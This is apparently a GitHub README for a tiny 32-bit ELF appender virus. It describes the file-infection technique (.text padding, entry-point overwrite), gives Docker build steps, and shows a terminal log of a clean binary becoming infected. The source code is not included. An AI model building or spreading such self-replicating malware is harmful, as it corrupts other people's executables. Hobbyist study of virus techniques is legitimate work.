 ELF x86 32bit appender virus in 800b
====================================
The virus infects every infectable elf executable in the current directory using [Silvio's](https://en.wikipedia.org/wiki/Silvio_Cesare) classic .text section padding technique. Without debugging symbols it comes in at 800b

* mmap host for improved efficiency 
* virus length using jmp trick so no bootstrapping
* overwrites ELF header entry point

Compile
-------

The virus now runs in docker although you do not have to use docker. To compile the image run 

`docker build -t virus .`. 

To run the image use the `docker.sh` script. Once inside the docker container do `cd /virus/ && make` to compile. The virus code and host will be stored in `/tmp`

```
18:57 $ ./docker.sh

root@5d3f53a66f94:/# cd /virus/
root@5d3f53a66f94:/virus# make
root@5d3f53a66f94:/virus# cd /tmp/

root@5d3f53a66f94:/tmp# ./info.sh host
**** host ****
cb261f205ba23d2fcc49fecbcd91e072  host
entry point address:              0x8048320
host is clean

root@5d3f53a66f94:/tmp# ./info.sh appender
**** appender ****
81cb4c926b9da8cea19806f1fda2c658  appender
entry point address:              0x80482f0
appender is infected

root@203ff78bcad2:/tmp# ./host
hello world
root@203ff78bcad2:/tmp# ./appender
infect
root@203ff78bcad2:/tmp# ./host
infect
hello world

root@5d3f53a66f94:/tmp# ./info.sh host
**** host ****
72f68dd92d78201725a85b4b00254848  host
entry point address:              0x80485bd
host is infected
```
